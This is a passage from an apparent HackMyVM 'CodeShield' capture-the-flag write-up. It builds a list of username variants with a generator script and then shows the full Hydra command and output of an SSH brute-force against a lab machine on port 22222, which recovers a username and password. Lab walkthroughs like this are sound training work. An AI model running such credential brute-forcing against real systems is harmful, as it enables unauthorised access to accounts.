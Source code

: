 ```bash
Thomas,Mitchell
Patrick,Early
```
As soon as we have created the input file we could run the script to generate usernames.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/CodeShield/generate-ad-username]
└─$ python3 ADGenerator.py users.txt > usernames.txt

┌──(emvee㉿kali)-[~/Documents/HMV/CodeShield/generate-ad-username]
└─$ head -n 20 usernames.txt
kevinvaldez
kevin-valdez
kevin.valdez
kevval
kev-val
kev.val
kvaldez
k-valdez
k.valdez
valdezkevin
valdez-kevin
valdez.kevin
valkev
val-kev
val.kev
vkevin
v-kevin
v.kevin
valdezk
valdez-k

```
#### Brute force SSH
Since there are several SSH services running on the target we should attack the correct service. Let's check port 22222 with the username kevin to see what is happening.
![Image](/assets/img/WriteUp/HackMyVM/CodeShield/Pasted image 20230830090928.png){: width="700" height="400" }

A warning banner is shown to us. This is probably our entrance to gain initial access. Now let's run Hydra with the custom password list and the generated usernames list.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/CodeShield/generate-ad-username]
└─$ hydra ssh://$ip -L usernames.txt -P ../wordlist.txt -s 22222
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-30 09:09:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 16170 login tries (l:147/p:110), ~253 tries per task
[DATA] attacking ssh://10.0.2.6:22222/
[STATUS] 683.00 tries/min, 683 tries in 00:01h, 15519 to do in 00:23h, 32 active
[STATUS] 636.00 tries/min, 1908 tries in 00:03h, 14299 to do in 00:23h, 27 active
[22222][ssh] host: 10.0.2.6   login: valdezk   password: Greatplace2work!


```
After a few minutes we got some credentials found with Hydra.
Let's add the password to our notes
```PASSWORD
Greatplace2work!
```
And we should add the username as well to our notes.